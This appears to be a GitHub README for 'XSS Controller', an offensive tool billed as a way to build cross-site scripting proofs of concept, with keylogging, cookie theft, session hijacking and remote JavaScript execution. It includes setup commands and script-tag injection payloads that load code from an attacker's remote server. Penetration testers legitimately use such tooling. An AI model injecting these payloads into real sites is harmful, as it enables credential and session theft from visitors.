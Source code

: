 # XSS Controller

XSS Controller is a framework to deliver malicious javascript inside XSS payloads and make betters PoC to demonstrate the impact of successful exploration of XSS.

## Features

- KeyLogger
- Remote redirect
- Cookies theft and Hijacking
- Remote JavaScript Execution
- Connection with HTTPS to bypass Mixed Content

## Setup

```bash
./setup.sh
npm i
```

## Running

```bash
npm start
```

Inject XSS payload to invoke remote javascript.

```html
<script src="https://REMOTE_SERVER:8443/"></script>
```

```html
<script src="http://REMOTE_SERVER:8080/"></script>
```

By default the server is up in 8080 port to HTTP Server and 8443 to HTTPS.
This config can be changed in `/app/server.js` in config variable.

```js
// Config ports to listen on
const config = {
  HTTPS_PORT: 8443,
  HTTP_PORT: 8080,
  WEB_SOCKET_PORT: 3000,
};
```

## Execution

```bash
npm i
npm start
```

## Inspíration

This project was created based on [xss-keylogger](https://github.com/hadynz/xss-keylogger) by [hadynz](https://twitter.com/hadynz).
